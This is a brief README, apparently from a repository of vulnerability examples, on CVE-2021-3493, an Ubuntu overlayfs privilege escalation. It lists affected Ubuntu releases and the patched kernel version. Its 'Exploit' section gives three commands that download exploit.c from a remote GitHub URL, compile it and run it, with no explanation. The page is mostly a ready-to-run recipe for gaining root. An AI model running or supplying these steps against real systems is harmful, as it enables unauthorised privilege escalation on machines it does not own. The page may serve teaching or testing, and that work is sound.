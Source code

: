 # CVE-2021-3493
## Affected:
- Ubuntu 20.10
- Ubuntu 20.04 LTS
- Ubuntu 19.04
- Ubuntu 18.04 LTS
- Ubuntu 16.04 LTS
- Ubuntu 14.04 ESM
## Patched
\>= Linux 5.11
## Exploit
```
wget https://raw.githubusercontent.com/CSIRT-UMM/vulnclass/main/Privilege%20Escalation/Ubuntu%20overlayfs%20CVE-2021-3493/exploit.c
gcc exploit.c -o exploit
./exploit
```
